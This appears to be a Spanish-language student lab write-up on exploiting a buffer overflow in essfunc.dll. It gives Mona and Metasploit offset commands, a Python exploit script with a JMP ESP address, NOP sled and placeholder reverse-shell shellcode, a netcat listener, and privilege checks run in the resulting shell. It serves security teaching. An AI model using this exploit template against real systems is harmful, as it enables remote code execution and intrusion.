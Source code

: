 ```yaml
---
title: practica 2
date: 2024-11-04 00:35:00 -05:00
categories: [web, parcial]
tags: [nmap, metasploit]  # tag names should always be lowercase
---
```




## Requerimientos de la Tarea

### 1. Verificar Direcciones `JMP ESP` y Probar Vulnerabilidad para Buffer Overflow

El primer objetivo es identificar y verificar si alguna de las direcciones `JMP ESP` en el módulo vulnerable (`essfunc.dll`) permite redirigir el flujo de ejecución a nuestro código malicioso (shellcode).

#### Paso 1.1: Buscar Direcciones `JMP ESP`

Utilizamos el plugin **Mona** en **Immunity Debugger** para localizar las instrucciones `JMP ESP` en `essfunc.dll`. Esto es esencial para redirigir la ejecución hacia nuestra shellcode cuando se desborda el buffer.

```plaintext
!mona find -s "\xff\xe4" -m essfunc.dll
```

La salida nos muestra una lista de direcciones posibles con `JMP ESP`. Utilizaremos una de estas direcciones en nuestro exploit.

#### Paso 1.2: Calcular el Offset del Buffer

Para sobrescribir el registro **EIP** (Instruction Pointer) y redirigir la ejecución, necesitamos conocer el desplazamiento (offset) en el buffer que alcanza el EIP.

1. Generar un patrón de prueba de 400 bytes con **Metasploit**:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
   ```
2. Ejecutamos el patrón en el programa vulnerable para provocar un crash.
3. Revisamos el valor que sobrescribe el **EIP** y calculamos el offset:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <VALOR_EIP>
   ```


#### Paso 1.3: Construir el Payload para el Exploit

Con el offset y la dirección `JMP ESP` confirmada, procedemos a crear el exploit en Python.

```python
import socket
import struct

# Información del objetivo
ip = "IP_OBJETIVO"
port = 9999

# Configuración del payload
offset = <OFFSET_CALCULADO>
buffer = b"A" * offset
jmp_esp = struct.pack("<I", 0x625011af)  # Dirección de JMP ESP verificada
nop_sled = b"\x90" * 16

# Shellcode para conexión TCP reversa (generado con msfvenom)
shellcode = (
    b"\xdb\xd3\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x52\x31\x58\x17\x03\x58\x17"
    # (Ejemplo de shellcode; reemplazar con el generado)
)

payload = buffer + jmp_esp + nop_sled + shellcode

# Enviar el payload
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    s.send(payload)
```

---

### 2. Explicación de una Conexión TCP Reversa

Una **conexión TCP reversa** es una técnica en la cual la máquina comprometida inicia una conexión hacia el atacante, el cual está escuchando en un puerto específico. Este tipo de conexión es útil para evadir restricciones de firewall, ya que muchas redes permiten conexiones salientes.

#### Setup de Laboratorio: Conexión TCP Reversa

Para esta práctica, usamos dos máquinas virtuales (VMs): **Kali Linux** como atacante y una **máquina Windows vulnerable** como objetivo.

**Diagrama del Setup**:

```plaintext
+----------------+                 +----------------+
|   Kali Linux   | <----TCP----->  |    Windows     |
| (Listener)     |                 | (Vulnerable)   |
+----------------+                 +----------------+
```

En **Kali Linux**, usamos **Netcat** para escuchar conexiones:

```bash
nc -lvnp 4444  # Escuchar en el puerto 4444
```

Cuando el exploit se ejecuta en la máquina Windows, esta se conecta al listener en Kali, dándonos acceso a una shell remota.



### 3. Verificación de Permisos en la Shell

Después de obtener acceso, es importante verificar los permisos de la shell obtenida, lo cual nos permitirá saber qué privilegios tenemos en la máquina objetivo.

#### Paso 3.1: Comprobar Privilegios del Usuario

En la shell remota, ejecutamos los siguientes comandos para obtener información sobre los permisos y el usuario activo:

1. **Comprobar el usuario actual**:
   ```bash
   whoami
   ```
2. **Listar usuarios y roles**:
   ```bash
   net user
   ```

Estos comandos nos permitirán determinar si tenemos permisos administrativos o si se requiere una escalada de privilegios.



## Conclusión

Se analiza, cómo explotar una vulnerabilidad de buffer overflow para redirigir la ejecución y obtener una conexión TCP reversa en una máquina comprometida. Esta experiencia permitio entender el proceso de explotación y la configuración de un entorno de pruebas en ciberseguridad.


